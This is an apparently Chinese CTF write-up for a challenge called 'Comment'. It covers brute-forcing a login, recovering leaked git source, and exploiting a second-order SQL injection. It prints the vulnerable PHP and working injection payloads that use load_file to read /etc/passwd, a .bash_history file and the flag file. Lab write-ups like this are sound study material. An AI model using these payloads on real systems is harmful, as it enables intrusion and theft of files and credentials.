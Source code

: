 ```yaml
---
title: Comment
date: 2021-04-06 16:55:26
tags: wp

---
```

## '__'
留言那里存在XSS，BUU的XSS平台没法注册，就没试'()'
       
二次注入      

![06.png](https://ae03.alicdn.com/kf/Ufb2c6edbf3b34e8e8cb710859b4ac8a9q.jpg)
提示了账号和密码，一般后面是三位数字，爆破是666       
![](https://ftp.bmp.ovh/imgs/2021/04/04a05effe6890640.png)      
`write_do.php`    
看WP是git泄露        
Githack一下下载下来`write_do.php`  ，但是是残缺的，git log历史commit里也没`add write_do.php`??      





	```php
	<?php
	include "mysql.php";
	session_start();
	if($_SESSION['login'] != 'yes'){
	    header("Location: ./login.php");
	    die();
	}
	if(isset($_GET['do'])){
	switch ($_GET['do'])
	{
	case 'write':     ##发帖
	    $category = addslashes($_POST['category']);
	    $title = addslashes($_POST['title']);
	    $content = addslashes($_POST['content']);
	    $sql = "insert into board
	            set category = '$category',
	                title = '$title',
	                content = '$content'";
	    $result = mysql_query($sql);
	    header("Location: ./index.php");
	    break;
	case 'comment':   ##留言
	    $bo_id = addslashes($_POST['bo_id']);
	    $sql = "select category from board where id='$bo_id'";
	    $result = mysql_query($sql);
	    $num = mysql_num_rows($result);
	    if($num>0){
	    $category = mysql_fetch_array($result)['category'];
	    $content = addslashes($_POST['content']);
	    $sql = "insert into comment
	            set category = '$category',
	                content = '$content',
	                bo_id = '$bo_id'";
	    $result = mysql_query($sql);
	    }
	    header("Location: ./comment.php?id=$bo_id");
	    break;
	default:
	    header("Location: ./index.php");
	}
	}
	else{
	    header("Location: ./index.php");
	}
	?>
	```




虽然有addslashes函数，但是，数据库查询时会自动过滤调斜线的     
![](https://ftp.bmp.ovh/imgs/2021/04/4d8c1aa58308f665.png)     
      
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";      


`category=',content=database(),/*     `   
留言输入`content=*/#`         
就成了      

    $sql = "insert into comment
            set category = '',content=database(),/*',
                content = '*/#',
                bo_id = '$bo_id'";      


就可以查询库了 ----`ctf`       
然后查表啥的，但查不出来       

`load_file`        

`	',content=load_file('/etc/passwd'),/*`     
![](https://ftp.bmp.ovh/imgs/2021/04/f60314c154735390.png)       

`',content=load_file('/home/www/.bash_history'),/*`      
![](https://ftp.bmp.ovh/imgs/2021/04/4ec8c167bc9d6949.png)    

虽然被删了，但`/tmp/html`中还有        
`',content=load_file('/tmp/html/.DS_Store'),/*`会乱码，加hex`',content=hex(load_file('/tmp/html/.DS_Store')),/*`   
![](https://ftp.bmp.ovh/imgs/2021/04/430404dd20585acc.png) 

`',content=hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php')),/*`      
解码得到flag     
